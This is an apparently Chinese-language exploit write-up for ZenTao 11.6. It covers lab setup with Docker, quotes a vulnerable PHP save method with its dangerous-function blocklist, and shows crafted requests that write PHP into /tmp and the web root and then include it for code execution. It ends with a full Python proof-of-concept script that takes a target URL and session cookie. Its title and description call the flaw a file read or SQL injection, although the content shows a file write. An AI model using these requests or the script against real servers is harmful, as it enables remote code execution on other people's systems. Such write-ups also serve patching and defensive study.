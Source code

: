 # 禅道 11.6版本 任意文件读取漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

> [!NOTE]
>
> 禅道 11.6

## 环境搭建

这里使用docker环境搭建

```
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 **http://xxx.xxx.xxx.xxx:8084** 按步骤安装即可

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-1.png)

## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

查看**module/api/ediyor/moudel.php**下的**save方法**

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }

```

**$filePath参数和$fileContent参数** 我们是可控的

调用方法往 **/tmp**写入一个**phpinfo()**

```
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell.php

POST:fileContent=<?php phpinfo();?>
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-24.png)

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-25.png)

在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含

```
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-26.png)

也可以写入网站目录中

先获取地址

```
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

POST：fileContent=<?php system('find / -name ioncube.php')?>');?>
```

访问**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-27.png)

得到目录为 **/app/zentaopma/www**

请求改为

```
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

再去访问**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**则会再网站目录下生成 xxx.php 文件

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-28.png)

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-29.png)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                        \033[0m')
    print('+  \033[34mVersion: zentao version = 11.6                                    \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    data = {"fileContent":"<?php phpinfo();?>"}
    write_url = target_url + "/api-getModel-editor-save-filePath=/tmp/test"
    try:
        response = requests.post(url=write_url, data=data, headers=headers, timeout=10)
        print("\033[32m[o] 尝试写入php文件... \033[0m")
    except:
        print("\033[31m[x] 写入php文件失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    vuln_url = target_url + "/api-getModel-api-getMethod-filePath=/tmp/test/1"
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=10)
        if "System" in response.text:
            print("\033[32m[o] 成功写入文件，存在漏洞, 访问 {}/api-getModel-api-getMethod-filePath=/tmp/test/1/ 查看 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 读取php文件失败 \033[0m")
    except:
        print("\033[31m[x] 读取php文件失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, zentaosid)
    POC_3(target_url, zentaosid)
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-30.png)


